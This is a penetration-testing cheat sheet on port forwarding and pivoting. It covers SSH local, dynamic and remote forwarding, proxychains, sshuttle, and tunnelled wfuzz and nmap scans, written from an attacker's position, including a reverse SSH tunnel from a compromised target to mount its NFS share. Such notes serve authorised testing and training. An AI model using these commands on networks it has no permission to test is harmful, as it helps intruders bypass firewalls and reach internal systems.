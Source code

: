 # Port Forwarding Techniques

### Guides

Tunneling and Pivoting Techniques (GIAC): https://www.giac.org/paper/gwapt/4686/tunneling-pivoting-web-application-penetration-testing/120229

### Local SSH Port Forwarding to Bypass Firewalls

The SSH server redirects data from a specified port (which is local to the host running the SSH client e.g. Kali/attacker) through a secure tunnel to a specified destination host and port. This sometimes allows bypass of firewall rules.

Have shell access -> enum'd a new port/service via. `netstat` but can't access it from within the target / blocked?
```
$ ssh -L [local_port]:[target/jumpbox]:[blocked_port] [user]@[target]

# example - bypass blocked HTTP service on port 80
$ ssh -L 80:192.168.218.99:80 bob@192.168.218.99
```

### Dynamic Port Forwarding

This will allow you to access internal network services on dynamic (as opposed to static) ports.

Proxychains
1. Ensure `/etc/proxychains4.conf` is setup with the preferred port (deafult is `9050`).
2. Establish SSH tunnel with proxy server `$ kali> sudo ssh -N -D 127.0.0.1:9050 username@proxy_server/jump_box`
3. Run commands `$ proxychains curl http://[internal_target]`

Sshuttle
```
$ sshuttle user@[proxy_server] [internal_cidr]
$ sshuttle hello@10.11.1.251 10.1.1.0/24
```

Directory brute-force example
* Wfuzz works well, Gobuster requires some setup.
```
$ wfuzz -p 127.0.0.1:9050:SOCKS4 -c -w [/path/to/wordlist] --hc=404 http://[internal_target]/FUZ
```

Proxychains examples
```
$ proxychains nmap -Pn -sT -sV [target]       # nmap internal scan
$ proxychains curl http://localhost/exec.php  # request internal web server
```

### Remote Port Forwarding

SSH remote port forwarding is for opening a connection from within the target -> Kali.
* Can bypass inbound firewall restrictions to SSH (as outbound connection is used).
* Can be used to access a target's localhost services from Kali (see NFS below)
```
# Mount a target's localhost NFS share
$ target> ssh -N -R [kali]:2049:127.0.0.1:2049 kali@[kali_ip]
$ kali> mount -t nfs 127.0.0.1:/ /mnt -o nolock
```


